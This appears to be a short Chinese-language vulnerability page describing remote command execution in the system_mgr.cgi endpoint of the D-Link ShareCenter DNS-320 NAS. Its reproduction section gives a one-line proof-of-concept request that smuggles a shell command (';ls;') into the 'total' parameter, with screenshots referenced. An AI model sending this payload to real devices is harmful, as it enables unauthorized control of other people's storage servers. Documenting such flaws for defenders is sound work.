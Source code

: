 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

<a-checkbox checked>D-Link ShareCenter DNS-320</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210605180903289.png)



漏洞POC为



```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```



![img](../../../.vuepress/public/img/image-20210605181224009.png)

